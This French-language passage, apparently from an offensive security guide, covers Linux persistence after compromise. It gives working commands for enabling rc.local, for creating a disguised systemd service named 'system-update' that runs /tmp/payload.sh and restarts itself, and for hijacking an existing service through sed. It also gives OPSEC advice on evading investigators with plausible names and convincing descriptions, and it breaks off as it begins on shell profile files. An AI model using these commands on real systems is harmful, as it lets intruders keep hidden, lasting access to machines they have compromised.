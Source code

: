 ```
[Install]
WantedBy=multi-user.target
EOF

systemctl enable rc-local.service
```

Du point de vue OPSEC, les modifications de rc.local sont relativement faciles à détecter lors d'une investigation. Pour une approche plus discrète, il est préférable d'utiliser des services systemd dédiés ou de modifier des scripts d'initialisation existants mais rarement examinés.

### Services Systemd

Sur les distributions Linux modernes utilisant systemd, la création d'un service offre un mécanisme de persistance robuste :

```
cat > /etc/systemd/system/system-update.service << EOF
[Unit]
Description=System Update Service
After=network.target

[Service]
Type=simple
ExecStart=/tmp/payload.sh
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable system-update.service
systemctl start system-update.service
```

Cette commande crée et active un service nommé "system-update" qui exécute payload.sh au démarrage du système et le redémarre en cas d'arrêt.

Pour une persistance plus discrète, on peut modifier un service existant mais rarement utilisé :

```
sed -i 's|ExecStart=.*|ExecStart=/tmp/payload.sh|' /etc/systemd/system/some-service.service
systemctl daemon-reload
```

Du point de vue OPSEC, les services systemd sont bien documentés et peuvent être listés avec des commandes comme `systemctl list-unit-files`. Pour minimiser les risques de détection, il est recommandé d'utiliser des noms plausibles, de fournir des descriptions convaincantes, et de cibler des services rarement utilisés plutôt que d'en créer de nouveaux.

### Fichiers de profil et d'initialisation de shell

Les fichiers de profil comme `.bashrc`, `.bash_profile`, ou `.profile` sont exécutés lorsqu'un utilisateur ouvre un shell. Ils peuvent être utilisés pour établir une persistance au niveau utilisateur :
